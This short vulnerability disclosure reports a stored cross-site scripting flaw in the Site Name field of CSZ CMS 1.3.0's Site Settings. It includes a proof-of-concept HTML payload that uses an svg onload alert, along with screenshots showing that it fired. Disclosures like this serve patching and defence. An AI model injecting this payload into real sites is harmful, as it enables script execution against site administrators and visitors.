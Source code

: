 product： CSZ CMS

download link： https://www.cszcms.com/product/download

version：1.3.0


There is Cross-Site Scripting (XSS)  vulnerability within Site Name fields of Site Settings.

![1](https://github.com/sms2056/cms/assets/15358350/cdfaf964-2850-4112-ba3c-4195e7dad0c9)


poc:
```
<div><p title="</div><svg/onload=alert(1)>">

```

Accessing Sites and successed

![2](https://github.com/sms2056/cms/assets/15358350/950a2b8d-8725-49f8-ac3a-4698400a1c21)
